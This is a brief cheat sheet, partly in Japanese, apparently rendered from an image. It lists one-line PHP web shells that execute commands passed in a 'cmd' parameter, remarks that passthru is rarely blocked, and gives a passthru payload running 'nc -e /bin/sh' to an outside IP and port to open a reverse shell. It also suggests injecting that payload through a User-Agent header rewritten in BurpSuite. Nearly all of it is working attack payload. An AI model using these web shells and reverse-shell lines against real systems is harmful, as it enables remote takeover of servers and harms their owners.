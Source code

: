 ```
<?php system($_GET['cmd']);?>
<?php passthru($_GET['cmd']);?>
<?php exec($_GET['cmd']);?>
<?php shell_exec($_REQUEST['cmd']);?>
```
passthruは塞がれていることが少ない   
```
passthru("nc -e /bin/sh 192.168.119.195 4444");
```
BurpSuiteでUser-Agentを書き換える
```
<? passthru("nc -e /bin/sh 192.168.119.195 4444"); ?>
```
